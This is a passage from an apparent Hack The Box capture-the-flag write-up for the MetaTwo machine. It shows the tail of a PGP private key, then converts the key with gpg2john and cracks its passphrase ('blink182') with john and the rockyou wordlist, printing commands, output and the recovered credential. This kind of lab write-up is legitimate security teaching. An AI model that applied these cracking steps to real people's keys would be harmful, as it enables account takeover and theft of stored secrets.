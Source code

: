 	RfcJUrnjPpDFgF6sXQJuNuPdowc36zjE7oIiD69ixGR5UjhvVy6yFlESuFzrwyeu
	TDl0UOR6wikHa7tF/pekX317ZcRbWGOVr3BXYiFPTuXYBiX4+VG1fM5j3DCIho20
	oFbEfVwnsTP6xxG2sJw48Fd+mKSMtYLDH004SoiSeQ8kTxNJeLxMiU8yaNX8Mwn4
	V9fOIdsfks7Bv8uJP/lnKcteZjqgBnXPN6ESGjG1cbVfDsmVacVYL6bD4zn6ZN/n
	WP4HAwKQfLVcyzeqrf8h02o0Q7OLrTXfDw4sd/a56XWRGGeGJgkRXzAqPQGWrsDC
	6/eahMAwMFbfkhyWXlifgtfdcQme2XSUCNWtF6RCEAbYm0nAtDNQYXNzcGllIChB
	dXRvLWdlbmVyYXRlZCBieSBQYXNzcGllKSA8cGFzc3BpZUBsb2NhbD6IkAQTEQgA
	OBYhBHxnhqdWG8hPUEhnHjh3dcNXRdIDBQJiuFfWAhsjBQsJCAcCBhUKCQgLAgQW
	AgMBAh4BAheAAAoJEDh3dcNXRdIDRFQA/3V6S3ad2W9c1fq62+X7TcuCaKWkDk4e
	qalFZ3bhSFVIAP4qI7yXjBXZU4+Rd+gZKp77UNFdqcCyhGl1GpAJyyERDZ0BXwRi
	uFfWEAQAhBp/xWPRH6n+PLXwJf0OL8mXGC6bh2gUeRO2mpFkFK4zXE5SE0znwn9J
	CBcYy2EePd5ueDYC9iN3H7BYlhAUaRvlU7732CY6Tbw1jbmGFLyIxS7jHJwd3dXT
	+PyrTxF+odQ6aSEhT4JZrCk5Ef7/7aGMH4UcXuiWrgTPFiDovicAAwUD/i6Q+sq+
	FZplPakkaWO7hBC8NdCWsBKIQcPqZoyoEY7m0mpuSn4Mm0wX1SgNrncUFEUR6pyV
	jqRBTGfPPjwLlaw5zfV+r7q+P/jTD09usYYFglqJj/Oi47UVT13ThYKyxKL0nn8G
	JiJHAWqExFeq8eD22pTIoueyrybCfRJxzlJV/gcDAsPttfCSRgia/1PrBxACO3+4
	VxHfI4p2KFuza9hwok3jrRS7D9CM51fK/XJkMehVoVyvetNXwXUotoEYeqoDZVEB
	J2h0nXerWPkNKRrrfYh4BBgRCAAgFiEEfGeGp1YbyE9QSGceOHd1w1dF0gMFAmK4
	V9YCGwwACgkQOHd1w1dF0gOm5gD9GUQfB+Jx/Fb7TARELr4XFObYZq7mq/NUEC+P
	o3KGdNgA/04lhPjdN3wrzjU3qmrLfo6KI+w2uXLaw+bIT1XZurDN
	=7Uo6
	-----END PGP PRIVATE KEY BLOCK-----
	```


## Root - Crack GPG Private Key
1. Convert private key to john format
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/gpg]
	└─# gpg2john priv | tee john_priv
	
	File priv
	Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::priv
	```
2. Crack it w/ `john` against `rockyou` wordlist
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/gpg]
	└─# john --wordlist=/usr/share/wordlists/rockyou.txt john_priv
	Using default input encoding: UTF-8
	Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
	Cost 1 (s2k-count) is 65011712 for all loaded hashes
	Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
	Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all lo
	aded hashes
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	0g 0:00:00:02 0.00% (ETA: 2022-12-06 02:30) 0g/s 29.41p/s 29.41c/s 29.41C/s hello..elizabeth
	blink182         (Passpie)
	1g 0:00:00:05 DONE (2022-11-29 10:53) 0.1782g/s 29.59p/s 29.59c/s 29.59C/s blink182..sweetie
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed.
	```
	> Valid Credential
	> - passpie:blink182
	{: .prompt-info}
3. Export credentials from `passpie` w/ `blink182` as the password
